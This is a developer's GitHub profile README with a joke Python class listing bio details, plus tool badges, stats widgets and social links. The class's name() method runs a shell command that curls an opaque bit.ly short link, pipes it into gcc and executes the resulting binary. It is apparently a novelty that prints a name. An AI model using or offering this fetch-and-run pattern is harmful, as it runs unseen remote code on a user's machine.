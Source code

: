 <h1 align="center">Hi 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn." /> 
</p>

```python
class PROxZIMA:
    def __init__(self):
        self.name()

    def bio(self) -> dict:
        return {
            '- 💼 I’m currently working for':    {'Convin.ai': 'https://convin.ai'},
            '- 🔭 I’m currently working on':     {'Prism':     'https://github.com/PROxZIMA/prism',
                                                  'Sweet-Pop': 'https://github.com/PROxZIMA/Sweet-Pop'},
            '- 🌱 I’m currently learning':       ['Django', 'C++', 'Python', 'Full Stack Development', 'Algo Trading'],
            '- 💬 Ask me anything':              '¯\_(ツ)_/¯',
            '- 👨‍💻 My projects are available at': 'https://github.com/PROxZIMA?tab=repositories',
            '- 📄 Know about my experiences':    'https://proxzima.ml/resume',
            '- ⚡ Fun fact':                     ('Proxima Centauri is a small, low-mass star located 4.2465 '
                                                  'light-years away from the Sun in the southern constellation '
                                                  'of Centaurus')
        }

    def name(self):
        subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)

if __name__ == '__main__':
    import subprocess, json
    me = PROxZIMA()
    print(json.dumps(me.bio(), indent=4, ensure_ascii=False).replace('"', ''))
```
<br>
  
### - Tools/Interests 🔗
<p align="center">
  <a href="#"><img src="https://img.shields.io/badge/Android-3DDC84?style=for-the-badge&logo=android&logoColor=white" alt="Android"></a>
  <a href="#"><img src="https://img.shields.io/badge/Arch_Linux-1793D1?style=for-the-badge&logo=arch-linux&logoColor=white" alt="Arch Linux"></a>
  <a href="#"><img src="https://img.shields.io/badge/Pop!_OS-48B9C7?style=for-the-badge&logo=Pop!_OS&logoColor=white" alt="Pop!_OS"></a>
  <a href="#"><img src="https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white" alt="Windows"></a>
  <a href="#"><img src="https://img.shields.io/badge/Firefox-FF7139?style=for-the-badge&logo=Firefox-Browser&logoColor=white" alt="Firefox"></a>
  <a href="#"><img src="https://img.shields.io/badge/Python-FFD43B?style=for-the-badge&logo=python&logoColor=darkgreen" alt="Python"></a>
  <a href="#"><img src="https://img.shields.io/badge/C%2B%2B-00599C?style=for-the-badge&logo=c%2B%2B&logoColor=white" alt="C++"></a>
  <a href="#"><img src="https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white" alt="HTML5"></a>
  <a href="#"><img src="https://img.shields.io/badge/CSS3-1572B6?style=for-the-badge&logo=css3&logoColor=white" alt="CSS3"></a>
  <a href="#"><img src="https://img.shields.io/badge/JavaScript-323330?style=for-the-badge&logo=javascript&logoColor=F7DF1E" alt="JavaScript"></a>
  <a href="#"><img src="https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white" alt="HTML5"></a>
  <a href="#"><img src="https://img.shields.io/badge/Numpy-777BB4?style=for-the-badge&logo=numpy&logoColor=white" alt="Numpy"></a>
  <a href="#"><img src="https://img.shields.io/badge/Pandas-2C2D72?style=for-the-badge&logo=pandas&logoColor=white" alt="Pandas"></a>
  <a href="#"><img src="https://img.shields.io/badge/Django-092E20?style=for-the-badge&logo=django&logoColor=green" alt="Django"></a>
  <a href="#"><img src="https://img.shields.io/badge/DJANGO-REST-ff1709?style=for-the-badge&logo=django&logoColor=white&color=ff1709&labelColor=gray" alt="DJANGO REST"></a>
  <a href="#"><img src="https://img.shields.io/badge/Postman-FF6C37?style=for-the-badge&logo=Postman&logoColor=white" alt="Postman"></a>
  <a href="#"><img src="https://img.shields.io/badge/Google_Cloud-4285F4?style=for-the-badge&logo=google-cloud&logoColor=white" alt="Google Cloud"></a>
  <a href="https://www.codechef.com/users/proxzima"><img src="https://img.shields.io/badge/CodeChef-5B4638?style=for-the-badge&logo=CodeChef&logoColor=white" alt="CodeChef"></a>
  <a href="https://www.hackerrank.com/PROxZIMA"><img src="https://img.shields.io/badge/Hackerrank-2EC866?style=for-the-badge&logo=HackerRank&logoColor=white" alt="Hackerrank"></a>
  <a href="#"><img src="https://img.shields.io/badge/alacritty-F46D01?style=for-the-badge&logo=alacritty&logoColor=white" alt="Alacritty"></a>
  <a href="#"><img src="https://img.shields.io/badge/NeoVim-%2357A143.svg?&style=for-the-badge&logo=neovim&logoColor=white" alt="NeoVim"></a>
  <a href="#"><img src="https://img.shields.io/badge/VS_Codium-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white" alt="VS Codium"></a>
  <a href="#"><img src="https://img.shields.io/badge/Android_Studio-3DDC84?style=for-the-badge&logo=android-studio&logoColor=white" alt="Android Studio"></a>
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://img.shields.io/badge/NVIDIA_3050-76B900?style=for-the-badge&logo=nvidia&logoColor=white" alt="NVIDIA3 050"></a>
  <a href="#"><img src="https://img.shields.io/badge/AMD-Ryzen_7_4800H-ED1C24?style=for-the-badge&logo=amd&logoColor=white" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://img.shields.io/badge/asus-laptop-000000?style=for-the-badge&logo=asus&logoColor=white" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=Languages%20I%20Use" alt="proxzima"/></a>
</p>

### - Stats ⚡️
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&show_icons=true&theme=radical&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" width="48%" alt="proxzima"/></a>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<a href="https://github.com/DenverCoder1/github-readme-streak-stats"><img src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=radical&hide_border=true" width="48%" alt="My Streak"/></a>
</p>
<br>

## Find me around the web 🌎
<p>
- 📫 Mail me <a href="mailto:pratikbpingale9075@gmail.com"><img align='center' src="https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white" alt="gmail"></a>
</p>
<br>

<p align="center">
  <a href="https://linkedin.com/in/pratik-pingale"><img src="https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white" alt="pratik-pingale"/></a>
  <a href="https://www.instagram.com/pro_x_zima/"><img src="https://img.shields.io/badge/Instagram-E4405F?style=for-the-badge&logo=instagram&logoColor=white" alt="pro_x_zima"/></a>
  <a href="https://twitter.com/pro_x_zima"><img src="https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white" alt="pro_x_zima"/></a>
  <a href="https://www.reddit.com/user/PratikPingale"><img src="https://img.shields.io/badge/Reddit-FF4500?style=for-the-badge&logo=reddit&logoColor=white" alt="PratikPingale"/></a>
  <a href="https://discordapp.com/users/422274155509972992"><img src="https://img.shields.io/badge/PROxZIMA%237272-7289DA?style=for-the-badge&logo=discord&logoColor=white" alt="PROxZIMA#7272"/></a>
  <a href="https://t.me/PROxZIMA"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" alt="PratikPingale"/></a>
  <a href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="https://img.shields.io/badge/Visual_Studio_Extensions-5C2D91?style=for-the-badge&logo=visual%20studio&logoColor=white" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=141321" alt="PROxZIMA" /> 
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)

⭐️ From [PROxZIMA](https://github.com/PROxZIMA)
